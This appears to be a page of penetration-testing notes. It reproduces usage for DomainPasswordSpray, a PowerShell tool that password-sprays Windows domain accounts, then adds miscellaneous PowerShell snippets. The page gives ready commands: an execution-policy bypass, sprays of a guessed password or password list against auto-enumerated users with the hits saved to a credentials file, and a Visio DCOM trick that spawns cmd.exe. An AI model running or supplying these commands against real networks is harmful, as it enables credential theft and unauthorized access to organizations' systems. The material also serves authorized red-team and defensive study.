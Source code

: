 ### DomainPasswordSpray (Internal Windows Domain Password Brute Forcing)

Source: https://github.com/dafthack/DomainPasswordSpray

DomainPasswordSpray is a tool written in PowerShell to perform a password spray attack against users of a domain. By default it will automatically generate the user list from the domain. BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

#### Quick Start Guide
Open a PowerShell terminal from the Windows command line with 'powershell.exe -exec bypass'.
```
	Type 'Import-Module Invoke-DomainPasswordSpray.ps1'.
```

The only option necessary to perform a password spray is either -Password for a single password or -PasswordList to attempt multiple sprays. When using the -PasswordList option Invoke-DomainPasswordSpray will attempt to gather the account lockout observation window from the domain and limit sprays to one per observation window to avoid locking out accounts.

The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2016.
```
	PowerShell Invoke-DomainPasswordSpray -Password Winter2016
```

The following command will use the userlist at users.txt and try to authenticate to the domain "domain-name" using each password in the passlist.txt file one at a time. It will automatically attempt to detect the domain's lockout observation window and restrict sprays to one attempt during each window. The results of the spray will be output to a file called sprayed-creds.txt
```
	PowerShell Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

#### Invoke-DomainPasswordSpray Options
```
	UserList          - Optional UserList parameter. This will be generated automatically if not specified.
	Password          - A single password that will be used to perform the password spray.
	PasswordList      - A list of passwords one per line to use for the password spray (Be very careful not to lockout accounts).
	OutFile           - A file to output the results to.
	Domain            - A domain to spray against.
```

### Misc Powershell Pasties

List Removeable Drives
```
	Get-WmiObject Win32_LogicalDisk | Where-Object {($_.DriveType -eq 2) -and ($_.DeviceID -ne 'A:')} | %{"USB_PROCESS_DETECTED: " + $_.ProviderName  + "`n"}
```

Random Execution Method
```
$visio = [activator]::CreateInstance([type]::GetTypeFromProgID("visio.application", "system1"))
$docs = $visio.Documents.Add("")
$docs.ExecuteLine('CreateObject("Wscript.Shell").Exec("cmd.exe")')
```
